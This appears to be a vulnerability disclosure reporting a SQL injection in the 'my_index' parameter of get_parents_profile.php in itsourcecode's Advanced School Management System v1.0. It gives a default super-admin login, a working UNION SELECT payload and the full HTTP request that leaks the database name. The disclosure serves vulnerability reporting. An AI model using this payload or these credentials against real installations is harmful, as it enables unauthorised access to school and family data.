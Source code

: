 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_parents_profile.php?my_index=

Vulnerability location: /school/model/get_parents_profile.php?my_index=,my_index

[+] Payload: /school/model/get_parents_profile.php?my_index=-1'%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13,14,15--+ // Leak place ---> my_index

Current database name: std_db,length is 6


```sql
GET /school/model/get_parents_profile.php?my_index=-1'%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13,14,15--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971066-6feef462-b711-4bd6-95e7-d720576de045.png)

